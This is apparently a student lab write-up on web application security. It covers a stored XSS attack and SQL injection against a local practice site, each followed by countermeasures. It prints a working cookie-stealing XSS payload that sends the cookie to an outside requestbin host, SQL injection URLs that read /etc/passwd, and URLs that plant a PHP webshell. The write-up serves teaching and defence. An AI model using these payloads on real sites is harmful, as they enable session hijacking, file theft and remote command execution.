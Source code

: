 # Language-based Security

## Lab 3 - Web Application Security

### Part 1: Cross-Site Scripting (XSS)

The main XSS vulnerability that we found was in the "text" field of the comments section on the home page. Indeed, there was no filtering or encoding of any kind of HTML charaters or quotes.
This allowed us to inject some javascript code in the field to display a simple picture and, at the same time, steal the `PHPSESSID`cookie of the administator of the website checking the comments page.

#### Description of the attack

The command that we decided to insert in the "text" field to steal the administrator's cookie is:
```javascript
<script>var backup_url='http://media.istockphoto.com/photos/head-shot-of-cute-purebred-rottweiler-dog-pup-hanging-with-paws-over-picture-id1096889426';document.write('<img onerror="this.onerror=null;this.src=backup_url;" src="http://en8mgdzvtyrzg.x.pipedream.net/?'+document.cookie+'  "/>');</script>
```

When the administrator checks the comments page, the first source of the image will send his cookie (via the `document.cookie`) to our requestbin url where it can be easily retrieved.

![Requestbin used to hijack the administrator's cookie ](assets/pipedream.png)

The thing is, the victim will only see that someone uploaded a picture of a dog because a backup url is used in the `onerror` attribute of the `<img/>` tag to prevent showing a broken image which could be suspicious.

![Dog picture viewed by the administrator ](assets/dog-picture.png)

All we need then, to hijack the administator's session, is to replace the value of our `PHPSESSID`cookie, in the dev tools of the web browser, by the value set in the administrator's cookie.

![Session hijacking via manual modification of the PHPSESSID cookie ](assets/chrome-dev-tool.png)

Finally, we just need to reload the web page and we successfully hijacked the administrator's session. When we click on the "admin" link, we bypass the login/password step:

![Administrator page ](assets/admin-panel.png)

To prevent this attack from happening, we should sanitize user's inputs in the comments' text field. 
We can add escaping/encoding functions in the back-end source code to prevent special HTML characters usage. Some PHP functions are discussed in the countermeasures part.

#### Countermeasures

##### Client-side

Disable javascript code execution option in the web browser:
It is possible in modern web browsers to disable javascript code execution when visiting a web page. This would prevent cookie stealing attacks but some websites need javascript to work properly, so it can't be a solution on the long run.

##### Server-side

HttpOnly flag: 
One thing that could be done to prevent cookie stealing is to set the HttpOnly flag on the cookies sent by the server so that they can only be communicated over secure channels (SSL/TLS encryption) and become unreadable with javascript code.
The thing is, we also need to switch to an HTTPS communication protocol between the server and the client if we want the cookies to be sent.


Use escaping/encoding functions:
Another thing that could be done is to encode HTML entites in the user's inputs like `>` to `&gt;`, `<` to `&lt;` and quotes like `'` and `"` respectively to `&#x27;` and `&quot;`.
In PHP for exemple, we can use functions like `htmlentities()` or `htmlspecialchars()` to escape all special charaters that could be used to inject code in the input fields.

### Part 2: SQL Injection

#### Known Vulnerabilities

First of all, we tried to find vulnerabilities in the admin form, for example by escaping password verification, but this method was not very successful. Then, we found that the URL was not sanitized, meaning that some commands can be executed through the path. In this lab, we need to perfom SQL injections, meaning that we will execute SQL queries inside the URL.

#### Exploiting File Privilege

Using SQL injection, we can for example input a command that reads the `/etc/passwd` file and displays its content into the update form, as seen in the image below:

![Display passwd file in a form](assets/passwd-file.png)

In order to perform this action, we used the url `http://localhost/admin/edit.php?id=0%20union%20select%201,2,load_file("/etc/passwd"),4`, that executes the query directly on the server with the mysql user's rights, which has more privileges than the default www-data user.
Thus, it is possible to display sensitive files' content. For example, in this case, the file containing informations about users registered on the system. Before we would also have found passwords in this file, but modern UNIX systems now use the `/etc/shadow` file to save password hashes. 


#### Create a Webshell

Then, another vulnerability that could harm the system would be to execute unauthorized code remotely, by putting this request as an url :

`http://localhost/admin/edit.php?id=0%20union%20select%201,2,%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22,4%20into%20outfile%20%22/var/www/css/webshell.php%22`

By doing this, the mysql user will create in our `css` folder, which has write access for everyone, a php file to launch a shell on the server. We can see it on the image below :

![Webshell file located in css folder](assets/webshell-file.png)

Our file contains php code that will fetch the "cmd" parameter in our url, and run it through a shell:

```php
<?php
    system($_GET['cmd']);
?>

```

Now that we have our php file on the server, we can execute code remotely:

![Request whoami executed remotely](assets/whoami-req.png)

![Request uname executed remotely](assets/uname-req.png)

Note that the webshell file belongs to mysql, but when we run the command `whoami` through the web application, it seems that we are logged in as www-data user, which is the standard user that is often reserved for remote users on web apps in Apache. It has few rights on the system but if we modify a little bit our previous URL that writes a php file, we could, for example, activate the SUID flag on the file. By setting our real user ID as the effective user ID, we could send commands using mysql user, which has advanced rights on the system. 

#### Countermeasures

##### Web Application

- Parameterised queries : MySQL supports parameterised queries, meaning that instead of injecting values directly in the command, it uses inputs as parameters. Those are then formatted with only acceptable values into the SQL statement.
- Remove error messages : not the case in this app, but on some web servers, if an error occurs, it is sometimes thrown back to the client's browser. This could allow a potential attacker to use this information disclosure (like tables structure for example) to break the system.
    
##### Database System

- Use the principle of least privilege : every web application on a server should have its own database account. Running an application using privileged users (as root, or mysql user) can be very harmful in this type of attack. Anything an administrator can do, can also be done by an attacker. We have a case here by being able to read the passwd file.
- An even more secure countermeasure would be, for each database account, to authorize only writing and reading the database but forbid harmful actions like dropping tables.
- Use stored procedures : extra layer of abstraction on your application where you can specify every action that are allowed on each table by creating prepared functions. You use them instead of querying directly your database. Any request which is not part of a procedure would be rejected because, in a standard usage, you would not need to do this action.

##### Operating System

- Change permissions on the server: In web servers, it is mostly recommended that directories' permissions should be 755 and 644 for the files. Permissions 777 are not recommended because they give too many rights. When we created the webshell, we used the writing rights that were allowed in the css folder. Those rights don't have a purpose during normal execution so, by removing this permission, we would ensure that users can't write in this folder.




### Sources

1. [Sécurisez vos cookies (instructions Secure et HttpOnly)](https://blog.dareboost.com/fr/2016/12/securisez-cookies-instructions-secure-httponly/)
2. [SQL Injection Attacks and Some Tips on How to Prevent Them](https://www.codeproject.com/Articles/9378/SQL-Injection-Attacks-and-Some-Tips-on-How-to-Prev)
